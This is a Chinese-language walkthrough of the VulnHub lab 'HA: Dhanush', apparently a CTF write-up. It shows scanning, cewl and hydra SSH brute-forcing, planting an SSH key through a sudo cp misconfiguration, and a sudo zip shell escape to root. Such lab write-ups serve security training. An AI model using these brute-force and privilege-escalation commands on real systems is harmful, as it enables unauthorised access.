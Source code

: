 # HA: Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		# 爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e ns 192.168.253.141 ssh -s 65345
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-03.png)

```
# username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA Dhanush-08.png)